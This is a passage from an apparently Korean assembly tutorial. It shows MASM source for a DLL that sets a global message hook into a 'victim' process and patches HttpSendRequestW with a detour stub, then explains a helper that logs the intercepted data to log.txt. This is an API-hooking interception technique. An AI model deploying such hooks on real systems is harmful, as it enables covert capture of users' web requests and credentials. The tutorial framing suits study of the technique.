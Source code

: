 ```nasm
    push [ebx+16]
    push [ebx+12]
    push [ebx+8]
    push [ebx+4]
    call MyHttpSendRequestWJMP
    pop ebx

    ret 20
MyHttpSendRequestW endp
MyHttpSendRequestWJMP:
    db 5 dup(90h) ;mov edi,edi / push ebp / mov ebp, esp
    db 5 dup(90h) ;jmp 0FFFFFFFFh (HttpSendRequestW address + 5)

; export functions
SetVictim proc, lpszVictim:dword
    invoke lstrcpy, addr szVictim, lpszVictim

    ret
SetVictim endp

StartHook proc
    ;invoke SetWindowsHookEx, WH_CBT, addr GetMsgProc, hGlobalModule, NULL
    invoke SetWindowsHookEx, WH_GETMESSAGE, addr GetMsgProc, hGlobalModule, NULL
    mov hCBTHook, eax
    ret
StartHook endp

EndHook proc
    .if hCBTHook!=0
        invoke UnhookWindowsHookEx, hCBTHook
    .endif
    ret
EndHook endp


end DllEntry
```

이전예제와 같기때문에 LogSecurity 함수와 MyHttpSendRequestW 함수만 살펴보도록 하겠다.

```
LogSecurity proto, lpBuffer:dword, bufLen:dword
```

log.txt 파일에 문자열을 기록하는 함수이다. `lpBuffer` 문자열 주소, `bufLen` 문자열 수

LogSecurity 함수내용은 기본적으로 파일쓰기 windows api를 이용한거니 그냥 훑어보면 되겠다.

```nasm
MyHttpSendRequestW proc
    mov eax, esp
    push ebx
    mov ebx, eax
```
